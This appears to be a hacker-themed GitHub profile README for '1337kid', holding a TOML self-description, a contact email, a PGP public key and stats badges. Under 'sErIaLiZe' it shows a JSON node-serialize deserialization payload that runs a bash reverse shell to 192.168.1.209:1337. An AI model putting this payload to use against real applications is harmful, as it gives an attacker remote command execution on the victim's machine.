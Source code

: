 <div align="center">
<h3>Hey guys, I'm 1337KID<br/>(definitely not a kid)</h3>
<br>
<img align="center" src="http://github-profile-summary-cards.vercel.app/api/cards/profile-details?username=1337kid&theme=midnight_purple" alt="kek" />
</div>
<br/>

```toml
[1337kid]
desc = "Just a guy who can make your PC go sponge made"
langs = [ "Python" , "Shell ??" ]

[Contact]
email = "1337kid@proton.me"
PGP_ACCEPTED = true
```
sErIaLiZe
```json
{"leet":"_$$ND_FUNC$$_function() {require('child_process').exec('/bin/bash -i >& /dev/tcp/192.168.1.209/1337 0>&1', function(error, stdout, stderr) { console.log(stdout); });}"}
```
<details closed>
<summary>Click to view my PGP Public key</summary>
<pre>
-----BEGIN PGP PUBLIC KEY BLOCK-----

mQINBGSRWkQBEACz/zddmh711CESKzolkWB/4fl+xp1ytj9i2m+nGAR5Q709rltq
IeLitiUkn6jHb31Qb/4BWPIHnZcf2oxLtIiabUbLB0Pls9Ws+uuy+QlF2OJEb4Wu
4IKUpRrTq1nRUkFTiEe9HQk7m4zCOkqoln9HqDSH0ULuij91Kv1Qi+k/BJKKDMZ5
f9xMv4KJ8SRas6sX0sYcUByGfIP2tAIPUW79fOQ6DPxuRnen/rXzCFMIUw9hk5+u
In61xGyLqGSNtAYaTCkEvNpkYEJSQA9OsQE9SPy4D7RakA71UcnuHbwA1RzjXmMk
Vr0lyfVboKRwp7C5fDAkUQsE6kRJbyL17dtto1BqChOTITxyhPCOvg+MFs+7M4ml
tkYq3f0sddwXrPWCbqb0qWvAbnuvs3CeSKpb2r8GpKRmh0UayDgzfdhc8MyvSafg
oQLjBpayH8msqMQGqbgE81EjgvcA1LaNBtemGrjBAhulHsNovXo/8Jqsmr+Yd/dL
XsBAMq8vlSfk+SYNl3dAyS6u3w2ILo3XHpY0eom+EpA6sJuwU30NkUzcdYFyz1US
b8tFl1kF/d9NAxjtNZMoSliH4mRG84J61JHffraL84BhbpnOI3BZBMxjbGk8l3Qn
nQYArChxWgPkRe77mGr5mpXXoNTd5KYNUjE17gjbiebaxht/NpoCk24KqwARAQAB
tBtsZWV0a2lkIDwxMzM3a2lkQHByb3Rvbi5tZT6JAk4EEwEKADgCGwMFCwkIBwIG
FQoJCAsCBBYCAwECHgECF4AWIQTQOIxHPLxqZvF0htoT3jtRy9gz6AUCZJFa1QAK
CRAT3jtRy9gz6NyID/4sJEnSkzcstJe9VAcF99Zmac0asJK9pnV5vc1uOsUXjOJv
6ROCMRqsdwuMsxEVk2KBhMJnBuRXXCZNXWXgZjg4mW0WqO9biJx4GNzUKI8jUXDu
YRLpKsq1MWsR0s/qnqrnhIj+C8xlYJOenOvwmbw6JXzJvG8ldPq5vaYxpHU3gocA
i7L7gVpRSmxHRFSk82H02uR4BXgPxP08InMMVy+BKNqQQNM2xgPF7tup4fOTq8fS
gIowJf0Qe/YMU201ePNRsya7KM4jJl8XG1RLDmW6rvIJobJkVZ22J2syWR2CK8sF
6U6ARk9kWmBpyp6ZIlvyBYpHzF4Q32wjhfwZbbXNCXLoUUu1oOKqvPHmdG+DiujD
alWxrwHqBOtcEeMg1mJTaqOH/j9FLw6iWcpFGfMgMScEZf5LgrxwXJflmE82qwAG
U8ZV3k45GnRtYC5h8S7iVFAZ6AokRgbzH9gRdB/udfukoQXTSO9tgXYmGzayXBzZ
6MBWuq8MKs8d6VljKKDZhv73rvkP8MLPMyCezhXrqPfVknPGIRrxWB2hj4XrnywV
MIY6VAeNPFgF69DWP4Sl2r7MIjmTZ392ChbCipv6PPEPrFO0tEpoqkYUrWRcBg4i
3vwWMYnt8zemDECl8yFfhyLqgMykS6uClKnzQiYjEsWhntCFVNLLCaEtnJB+dQ==
=pts+
-----END PGP PUBLIC KEY BLOCK-----
</pre>
</details>

<div align="center">
  
| <img src="https://streak-stats.demolab.com?user=1337kid&theme=ambient-gradient&hide_border=true&background=45%2CEB00BD%2C1E1BEB" alt="kek" /> | <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=1337kid&layout=compact&theme=midnight-purple&hide_border=true" alt='lol'/> |
| ------------- | ------------- |

</div>

